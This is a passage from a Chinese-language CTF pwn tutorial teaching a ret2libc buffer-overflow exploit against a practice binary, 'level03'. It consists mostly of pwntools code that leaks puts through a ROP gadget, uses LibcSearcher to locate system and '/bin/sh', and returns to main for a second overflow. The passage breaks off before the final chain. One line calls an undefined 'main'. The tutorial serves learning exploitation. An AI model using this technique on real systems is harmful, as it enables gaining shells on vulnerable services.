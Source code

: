 ```python
print hex(puts_addr)
libc_base = puts_addr - libc.sym['puts'] # 计算libc基地址, 通过libc的符号表来查找puts的offset
sys_addr = libc_base + 	libc.sym['system']	# 计算system地址
bin_sh = libc_base + libc.search("/bin/sh").next()	# 计算/bin/sh地址
o.interactive()
```

-   第三种, 通过libc python工具

GitHub上提供了很多有关libc搜寻的工具, 比较常用的是LibcSearcher

```python
from pwn import*
from LibcSearcher import*	# 导入工具
o = process("./level03")
elf = ELF("./level03")

pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.recv()	# 需要将输出缓冲中的东西都读取出来, 要不然就会影响下面puts_addr的读出
o.sendline(payload)
puts_addr = u64((o.recv(6)).ljust(8, '\x00'))
print hex(puts_addr)
libc = LibcSearcher("puts", puts_addr)	# 生成LibcSearcher对象
libc_base = puts_addr - libc.dump('puts') # 计算libc基地址, 通过dump方法来查找offset
sys_addr = libc_base + 	libc.dump('system')	# 计算system地址
bin_sh = libc_base + libc.dump("str_bin_sh")	# 计算/bin/sh地址, 在工具中/bin/sh是以str_bin_sh形式存在的
o.interactive()
```

比较常用的是第三种方法, 不是所有题都会给libc

接下来考虑一个问题, 虽然泄露了函数真实地址, 但是程序直接退出了, 我们需要给puts一个函数返回地址, 也就是main函数, 可以让我们进行二次溢出, 将system和"/bin/sh"的rop链填入获取shell

#### Exploit

```python
from pwn import*
from LibcSearcher import*	# 导入工具
context.log_level = 'debug'	# 推荐加上, 日志级别设置为debug模式
o = process("./level03")
elf = ELF("./level03")

pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.sym['main']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt) + p64(main)	# 执行puts函数将puts的真实地址打印出来, 并返回再次执行main
o.recv()	# 需要将输出缓冲中的东西都读取出来, 要不然就会影响下面puts_addr的读出
o.sendline(payload)
puts_addr = u64((o.recv(6)).ljust(8, '\x00'))
print hex(puts_addr)
libc = LibcSearcher("puts", puts_addr)	# 生成LibcSearcher对象
libc_base = puts_addr - libc.dump('puts') # 计算libc基地址, 通过dump方法来查找offset
print hex(libc_base)	# 查看最后三位是否为0, 是的话基本libc就对了
sys_addr = libc_base + libc.dump('system')	# 计算system地址
bin_sh = libc_base + libc.dump("str_bin_sh")	# 计算/bin/sh地址, 在工具中/bin/sh是以str_bin_sh形式存在的

# 第二次溢出构造rop链
```